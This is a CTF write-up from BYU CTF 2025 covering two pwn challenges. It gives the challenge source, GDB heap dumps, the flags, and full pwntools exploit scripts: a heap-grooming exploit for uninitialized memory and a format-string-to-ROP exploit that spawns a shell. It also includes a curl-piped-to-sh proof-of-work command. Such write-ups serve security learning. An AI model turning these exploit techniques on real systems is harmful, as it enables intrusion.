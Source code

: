 ---
title: '[WRITE UP] - BYU CTF 2025'
description: 'Yet another CTF wrtite up'
image: '../../img/cover_photo_wup_imresizer.png'
date: 2025-05-26
tags: ['2025', 'PWN', 'WriteUp']
authors: ['kdot']
draft: true
pinned: false
---


## Minecraft Youtuber

### Challenge Information

<Challenge
  authors={["overllama"]}
  category="pwn"
  description="Oh boy, I hit a million subscribers on YouTube, what do I do now?"
  flag="byuctf{th3_3xpl01t_n4m3_1s_l1t3r4lly_gr00m1ng}"
>
</Challenge>

### Solution

<details id="src">
<summary>Souce code</summary>
<p>
```c title="minecraft.c"
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <unistd.h>

__attribute__((constructor)) void flush_buf() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

typedef struct {            // 0x18 bytes
    long uid;               // 0x8 bytes
    char username[8];       // 0x8 bytes
    long keycard;           // 0x8 bytes
} user_t;

typedef struct {
    long mfg_date;         // 0x8 bytes
    char first[8];         // 0x8 bytes
    char last[8];          // 0x8 bytes
} nametag_t;

long UID = 0x1;
char filename[] = "flag.txt";
user_t* curr_user = NULL;
nametag_t* curr_nametag = NULL;

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}


// Malloc -> tạo vùng nhớ trên heap malloc(size)
void register_user() {
    printf("WELCOME!! We're so excited to have you here! Tell us your username / tag and we'll get you set up with access to the facilities!\n");
    curr_user = (user_t*)malloc(sizeof(user_t)); // 0x18 bytes
    curr_user->uid = UID++;
    printf("Please go ahead an type your username now: \n");
    read(0, curr_user->username, 8);

    // 0 - STDIM
    // 1 - STDOUT
    // 2 - STDERR
}

void log_out() {
    free(curr_user);
    curr_user = NULL;

    // Nếu nametag ko có dữ liệu ko free
    if (curr_nametag != NULL) {
        free(curr_nametag);
        curr_nametag = NULL;
    }
}

int print_menu() {
    int choice;
    printf("What would you like to do now?\n");
    printf("1. Register a new user\n");
    printf("2. Learn about the Time Keepers\n");
    printf("3. Collect gear\n");
    printf("4. Elevate to super user\n");
    printf("5. Change characters\n");
    printf("6. Leave\n");
    // 7 is try to free loki but it's not technically an option, you have to be rebellious to get there
    scanf("%d", &choice);
    if (choice < 1 || choice > 7) {
        printf("Invalid choice. You broke the simulation\n");
        return 0;
    }
    return choice;
}

int main(void) {
    init();
    srand(time(NULL)); int gear;
    printf("Hello! My name is Miss Minutes, and I'll be your helper here at the TVA!!\nHow about we get you oriented first!\nThe only rule is that we under no circumstances can free Loki... he's locked up for a reason!\n");

    int input = 1;
    while (input) {
        switch (input) {
            case 1: // register a new user
                register_user();
                break;
            case 2:
                printf("The Time Keepers are the three beings who created the TVA and the Sacred Timeline. They are powerful beings who exist at the end of time and are responsible for maintaining the flow of time.\n");
                break;
            case 3: // collect gear
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }
                gear = rand() % 5 + 1;
                if (curr_nametag != NULL) {
                    free(curr_nametag);
                }
                switch (gear) {
                    case 1:
                        printf("You have received a Time Twister! This powerful device allows you to manipulate time and space.\n");
                        break;
                    case 2:
                        printf("You have received a Name Tag! Please input your first and last name:\n");
                        curr_nametag = (nametag_t*)malloc(sizeof(nametag_t));
                        curr_nametag->mfg_date = (long)time(NULL);
                        read(0, curr_nametag->first, 8);
                        read(0, curr_nametag->last, 8);
                        break;
                    case 3:
                        printf("You have received a Time Stick! This device allows you to reset the flow of time in a specific area.\n");
                        break;
                    case 4:
                        printf("You have received a Time Loop! This device allows you to trap someone in a time loop.\n");
                        break;
                    case 5:
                        printf("You have received a Time Bomb! This device allows you to create a temporal explosion.\n");
                        break;
                }
                break;
            case 4:
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }
                if (curr_user->uid >= 0x600000) {
                    printf("Well, everything here checks out! Go ahead and take this key card!\n");
                    curr_user->keycard = 0x1337;
                } else {
                    printf("Unfortunately, it doesn't look like you have all the qualifications to get your own key card! Stay close to Miss Minutes and she should be able to get you anywhere you need to go...\n");
                }
                break;
            case 5:
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }
                log_out();
                printf("You have been logged out.\n");
                printf(". "); sleep(1);
                printf(". "); sleep(1);
                printf(". \n"); sleep(1);
                register_user();
                break;
            case 6:
                input = 0;
                break;
            case 7:
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }

                // Uninitialized memory read
                if (curr_user->keycard == 0x1337) {
                    printf("You have freed Loki! In gratitude, he offers you a flag!\n");
                    FILE* flag = fopen(filename, "r");
                    if (flag == NULL) {
                        printf("Flag file not found. Please contact an admin.\n");
                        return EXIT_FAILURE;
                    } else {
                        char ch;
                        while ((ch = fgetc(flag)) != EOF) {
                            printf("%c", ch);
                        }
                    }
                    fclose(flag);
                    exit(0);
                    break;
                } else {
                    printf("EMERGENCY EMERGENCY UNAUTHORIZED USER HAS TRIED TO FREE LOKI!\n");
                    printf("Time police rush to the room where you stand in shock. They rush you away, take your gear, and kick you back to your own timeline.\n");
                    log_out();
                    input = 0;
                    break;
                }
        }

        if (input != 0) {
            input = print_menu();
        }
    }
    return input;
}
```
</p>
</details>

Look at the code above, it pretty long. But we just need to focus on `case 7` where we can get the flag if we have the keycard. And there is the bug `Uninitialized data use` in the code. We can `fengshui` the heap to get the flag. What I do is just let the program run until it shows us `Tag`, then create a new nametage which `curr_nametag->last` is contain the value `0x1337`

```sh title="GDB"
0x555555559290  0x0000000000000000      0x0000000000000021      ........!.......
0x5555555592a0  0x0000000000000001      0x000000000a6e776b      ........kwn.....
0x5555555592b0  0x0000000000000000      0x0000000000000021      ........!.......
0x5555555592c0  0x000000006833e68f      0x000000000a6e776b      ..3h....kwn.....
0x5555555592d0  0x0000000000001337      0x0000000000020d31      7.......1.......         <-- Top chunk
```

You can see that value `0x1337` is in the top chunk, and when you free it it will be there, because malloc just free the chunk `0x20` (include metadata). Then just `register_user` and get the flag

```py title="exploit.py" collapse={1-36}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./minecraft', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
brva 0x171C
brva 0x1462
brva 0x1739
brva 0x147C
brva 0x18B0
brva 0x171C
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, aslr=False)

# ==================== EXPLOIT ====================
p = start()

ru(b"username now: \n")
sl(b"kwn")

line = b""
while b"Tag" not in line:
    ru(b"Leave\n")
    sl(b"3")
    line = p.recvline()

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

sl(b'kwn')
sl(p64(0x1337))

sl(b'5')
sla(b'now: \n', b'kwn')

ru(b"Leave\n")
sl(b"7")

interactive()
```

## GOAT

### Challenge Information

<Challenge
  authors={["Legoclones"]}
  category="pwn"
  description="To prevent excessive brute forcing for those experiencing a skissue, I made sure to add a PoW."
  flag="byuctf{n0w_y0u're_the_g0at!}"
>
</Challenge>

### Solution

There many things here but I think we just need to focus on the challenge `binary`

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD v4[2]; // [rsp+0h] [rbp-C0h] BYREF
  char s1[64]; // [rsp+10h] [rbp-B0h] BYREF
  char s[104]; // [rsp+50h] [rbp-70h] BYREF
  unsigned __int64 v7; // [rsp+B8h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  v4[0] = 1413566279LL;
  v4[1] = 0LL;
  snprintf(
    s,
    0x5FuLL,
    "Welcome to the %s simulator!\nLet's see if you're the %s...\nWhat's your name? ",
    (const char *)v4,
    (const char *)v4);
  printf(s);
  fgets(s1, 32, stdin);
  snprintf(s, 0x5FuLL, "Are you sure? You said:\n%s\n", s1);
  printf(s);
  fgets(s1, 16, stdin);
  if ( !strncmp(s1, "no", 2uLL) )
  {
    puts("\n?? Why would you lie to me about something so stupid?");
  }
  else
  {
    snprintf(s1, 0x3FuLL, "\nSorry, you're not the %s...", (const char *)v4);
    puts(s1);
  }
  return 0;
}
```

There is a `Format String Bug` here, so we can use that to get the shell. But the program will exit after that, so we need to make a infinite loop to keep the program running. After that leak the address and write our ROP chain to saved RIP using `Format String Bug`.

```py title="exploit.py" collapse={1-72}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep
import re

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./goat_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
# b *0x401278
b *0x4012B0
# b *0x40129F
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv)

def solve_pow():
    banner = ru(b"solution: ")
    log.debug(f"POW banner:\n{banner!r}")

    m = re.search(b"sh -s (s\\.[^\\s]+)", banner)
    if not m:
        raise ValueError("Fail")
    salt = m.group(1).decode()
    log.info(f"{salt}")

    cmd = f"curl -sSfL https://pwn.red/pow | sh -s {salt}"
    solution = check_output(["bash", "-lc", cmd]).strip()
    log.info(f"{solution!r}")

    sl(solution)

def fmt_w(addr, saved_rip):
    target1 = addr & 0xffff
    payload = f"%{target1-0x18}c%10$hn".encode()
    payload = payload.ljust(0x10, b"a")
    payload += p64(saved_rip)
    sl(payload)
    sl("A")

    target2 = (addr >> 16) & 0xffff
    payload = f"%{target2-0x18}c%10$hn".encode()
    payload = payload.ljust(0x10)
    payload += p64(saved_rip+2)
    sl(payload)
    sl("A")

    target3 = addr >> 32
    payload = f"%{target3-0x18}c%10$hn".encode()
    payload = payload.ljust(0x10, b"a")
    payload += p64(saved_rip+4)
    sl(payload)
    sl("A")

# ==================== EXPLOIT ====================
p = start()

solve_pow()

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

payload = f"%{0x11f0-0x18}c%11$hn".encode() + b"|%31$p" + b"|%30$p"
payload = payload.ljust(0x18, b"a")
payload += p64(exe.got.puts)
sl(payload)
ru(b"|")
address = rl()[:-1].split(b"|")
print(address)
libc.address = int(address[0], 16) - 0x2A1CA
stack = int(address[1][:14], 16)
saved_rip = stack - 0x98

success('libc base @ %#x', libc.address)
success('stack leak @ %#x', stack)
success('saved rip @ %#x', saved_rip)

rop = ROP(libc)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = pop_rdi + 1
binsh = next(libc.search(b"/bin/sh\x00"))

fmt_w(pop_rdi, saved_rip)
fmt_w(binsh, saved_rip+8)
fmt_w(ret, saved_rip+16)
fmt_w(libc.sym.system, saved_rip + 24)

payload = f"%{0x133c-0x18}c%10$hn".encode()
payload = payload.ljust(0x10)
payload += p64(exe.got.puts)
sl(payload)
sl("A")

interactive()
```

